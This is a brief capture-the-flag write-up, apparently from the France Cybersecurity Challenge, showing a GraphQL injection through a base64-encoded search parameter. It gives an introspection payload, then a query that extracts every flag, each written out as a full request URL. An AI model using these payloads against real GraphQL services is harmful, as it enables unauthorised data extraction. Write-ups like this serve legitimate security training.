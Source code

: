 Identify the injection: 
Payload : {__schema{types{name}}}<br />

```http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=e19fc2NoZW1he3R5cGVze25hbWV9fX0= ```

Exploit the injection:
Payload: { allFlags{nodes{flag}}}<br />
```http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=eyBhbGxGbGFnc3tub2Rlc3tmbGFnfX19```

